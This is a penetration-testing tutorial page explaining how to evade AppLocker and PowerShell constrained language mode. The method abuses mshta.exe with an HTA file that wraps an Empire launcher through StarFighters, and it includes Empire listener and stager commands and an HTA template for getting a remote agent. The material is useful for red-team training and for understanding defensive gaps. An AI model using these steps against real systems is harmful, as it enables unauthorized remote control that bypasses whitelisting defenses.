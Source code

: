 # Bypassing Applocker and Powershell contstrained language mode

There will be environments where Applocker severely restricts which commands can be run on a system. That means no binaries that are not signed by Microsoft. Usually this means an environment where you basically have access to certain whitelisted applications like Internet explorer and notepad. This means getting a shell will be hard.

There could also be the restriction of Powershell constrained language mode too, which prevents you from running anything Powershell related. That means no Powershell scripts can be executed either.

However, both these features can be bypassed using a technique known as abusing mshta.exe, which is a binary used for executing html applications and it's typically installed along Internet Explorer.

A machine with some level of user access is of course a prequisite for this to work. The goal of this is to get a shell through an Empire agent. The only caveat of this technique is that it requires .NET framework 3.5 feature to be enabled to work .NET framework 3.5 feature is something that is not enabled by default in Windows 10 on a clean install.

We want to abuse the fact that we can launch mshta files, which is basically

Set up an Empire listener and generate a base64 encoded launcher. Copy the launcher when done

```text
uselistener http
set Port 81
execute
back
usestager multi/launcher
set Listener http
generate
agents
```

Now use StarFighter whic is JavaScript and VBScript Based Empire Launcher, which runs within their own embedded PowerShell Host. This means you don't have to rely on powershell.exe from the target, which you can't execute because of the restrictions set.

[https://github.com/Cn33liz/StarFighters](https://github.com/Cn33liz/StarFighters)

Paste the Empire launcher into the vbs or js where indicated. Name the file with .hta as extension.

```text
<body onclick="if(confirm('Close? (onclick)')){self.close();}">
<h1>Test Page</h1>
<script language="VBScript">
StarVighter.vbs contents go here with copypasted powershell
</script>
</body>
```

Then get the file on the box, right click on it, select Open with-&gt; Microsoft \(R\) HTML Application host and it should immediately launch and you should get an agent in Empire.

![](../.gitbook/assets/import.png)

**Useful links** [https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/](https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/) [https://github.com/api0cradle/UltimateAppLockerByPassList](https://github.com/api0cradle/UltimateAppLockerByPassList) [http://cn33liz.blogspot.no/2016/05/bypassing-amsi-using-powershell-5-dll.html](http://cn33liz.blogspot.no/2016/05/bypassing-amsi-using-powershell-5-dll.html)

